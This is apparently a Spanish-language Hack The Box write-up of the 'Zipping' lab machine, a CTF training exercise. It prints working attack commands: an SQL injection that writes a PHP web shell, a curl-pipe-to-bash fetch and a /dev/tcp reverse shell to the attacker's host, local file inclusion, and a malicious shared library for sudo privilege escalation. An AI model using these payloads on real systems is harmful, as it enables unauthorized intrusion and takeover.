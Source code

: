 ```yaml
---
layout: single
title: HTB Zipping writeup
date: 2023-11-08
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Tengo constancia de que antes esta máquina se resolvía por otro método más interesante. Este trataba de generar un `.pdf` malicioso que fuera leído por la aplicación web como un pdf, pero como un php por el servidor. Hack The Box la actualizó y, hasta ahora, no he sabido replicar esa vulnerabilidad. 

Aquí muestro la solución a noviembre de 2023:
</div>
<br><br>


# Reconocimiento 

Aplicamos un escaneo de puertos y servicios a la máquina víctima:

```shell
nmap -sV 10.10.11.229 -n -oN scan.txt -T5 -vvv
```

![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144349.png)
Tenemos un servidor http en el puerto 80. 
## Web

Tras revisar la web en profundidad, encontramos que funciona con .php: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144743.png)

# Penetración

## User

Introduciendo la petición del link anterior en el Repeater de BP podemos testar si podemos realizar SQLInjection a través de la aplicación PHP. 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108151829.png)

Éxito. La aplicación acoge peticiones cuando las comenzamos con un salto de línea (`%0A`). 

Ahora vamos a generar una Reverse Shell que subiremos con una petición curl al servidor, para después ejecutarla y tomar acceso. 

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
#Aquí debemos poner nuestra IP y el puerto que más tarde abriremos con netcat. y guardarlo como 'shell.sh'
```

Abrimos un puerto 80 en la carpeta donde se encuentra la shell. 

```shell
python3 -m http.server 80
```

En otra consola, abrimos el puerto: 

```shell
nc -nlvp <port>
```

Ahora, vamos a hacer las peticiones directamente desde consola, porque así nos ahorramos el paso de urlear el comando: 

```shell
curl $'http://zipping.htb/shop/index.php?page=product&id=%0A\'%3bselect+\'<%3fphp+system(\"curl+http%3a//<tu-ip>/rev.sh|bash\")%3b%3f>\'+into+outfile+\'/var/lib/mysql/shell.php\'+%231'

curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fshell' 
```

Una vez ejecutadas ambas peticiones, en la consola del netcat debería aparecernos el acceso: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108152810.png)

### Conseguir una shell funcional

Como siempre en estos casos, vamos a obtener una shell 100% funcional: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

Encontraremos la `user.txt`en la carpeta home del usuario, que aunque no esté definida en las variables de entorno, es accesible:
`/home/rektsu/user.txt`.



## Escalada de Privilegios

Revisamos si tenemos algún permiso de ejecución como sudo: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108153443.png)

Vamos a ver de qué trata el script `stock` con el siguiente comando: 

```shell
strings $(which stock)
```

Revisando el output, encontramos una credencial:


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154111.png)

`St0ckM4nager`


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154215.png)

Ejecutando `strace stock` e introduciendo la contraseña encontrada nos da la siguiente información: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108155849.png)

Es decir, el programa está llamando a un archivo llamado `/home/rektsu/.config/libcounter.so`  que no existe. Si este programa se ejecuta con permisos sudo, podemos crear ese archivo para que desde él nos lleve al usuario root. 

Vamos al directorio `/home/rektsu/.config/`

Y creamos un archivo `libcounter.c`con el siguiente contenido:

```c
#include <stdio.h>
#include <stdlib.h>

void escalation_func() {
	system("/bin/bash");
}

__attribute__((constructor))
void setup() {
	escalation_func();
}
```

Ahora lo compilamos como una librería, tal como el stock nos pedía más arriba: 

```shell
gcc -shared -o libcounter.so -fPIC libcounter.c
```

Tras esto, volvemos a ejecutar el script stock: 

```shell
sudo stock
St0ckM4nager
```


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108160859.png)

